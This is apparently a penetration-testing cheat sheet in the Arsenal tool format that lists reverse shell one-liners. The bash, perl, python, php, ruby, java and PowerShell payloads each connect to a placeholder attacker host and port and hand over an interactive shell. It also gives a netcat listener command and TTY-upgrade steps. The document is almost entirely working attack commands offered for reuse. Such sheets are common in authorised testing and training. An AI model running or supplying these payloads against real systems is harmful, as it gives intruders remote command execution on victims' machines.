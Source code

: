 # reverse shell

%reverse shell, reverse
#platform/linux #target/local #cat/ATTACK/REVERSE_SHELL 

## bash reverse shell
```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

## perl reverse shell
```
perl -e 'use Socket;$i="<lhost>";$p=<lport>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<lhost>",<lport>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## php reverse shell
```
php -r '$sock=fsockopen("<lhost>",<lport>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## ruby reverse shell
```
ruby -rsocket -e'f=TCPSocket.open("<lhost>",<lport>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## [[java]] reverse shell
```java
r = Runtime.getRuntime();p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<lhost>/<lport>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor()
```

## [[Arsenal/Windows/powershell]] reverse shell
```powershell
 $client = New-Object System.Net.Sockets.TCPClient('<lhost>',<lport>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## windows listener autocompletion
```
rlwrap nc -nlvp <port>
```

## interactive reverse shell - and Ctrl+Z (1) 
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## interactive reverse shell - on host - and do fg (2)
```
stty raw -echo
```

## interactive reverse shell - on reverse (3)
```
reset
stty rows <ROWS> cols <COLS>
export TERM=xterm-256color
```
